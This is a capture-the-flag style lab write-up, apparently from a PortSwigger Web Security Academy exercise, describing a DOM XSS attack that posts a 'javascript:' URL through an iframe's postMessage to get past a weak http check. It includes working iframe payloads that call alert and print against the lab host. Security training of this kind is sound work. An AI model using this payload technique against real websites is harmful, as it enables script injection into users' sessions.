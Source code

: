 # Lab: DOM XSS using web messages and a JavaScript URL

This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function. 

# Step 1 Find web message

![image](https://user-images.githubusercontent.com/83407557/211453393-d26c941c-21c6-4237-8008-0f8a0269fd52.png)

This code means that the only thing that the event listener needs to allow a url is either http or https to be present.

# Step 2 create ifame to send web message

Similar to the previous attack, I can create an iframe, but this time pass a javascript url, and as long as http is in the url it will go through. Furthermore I can comment out `//` the http

```html
<iframe src="https://0a7800bd0301dd33c2893a6c00e3009e.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert(document.domain)//http:','*')">
```

![image](https://user-images.githubusercontent.com/83407557/211454132-d9ab3aa9-e72c-456d-98ea-ceeccc670c90.png)

when I view the exploit, it triggers XSS

![image](https://user-images.githubusercontent.com/83407557/211454188-597f355d-a17a-49dd-8e5a-d6fa13ac14ff.png)

# Step 3 change POC to print function and send to victim

```html
<iframe src="https://0a7800bd0301dd33c2893a6c00e3009e.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```
![image](https://user-images.githubusercontent.com/83407557/211454339-116f59f1-9ccc-4da3-9f69-41731400e686.png)

Which solves the lab

![image](https://user-images.githubusercontent.com/83407557/211454378-77d1c1bb-bada-4b3f-80f8-4ea88ccdac21.png)

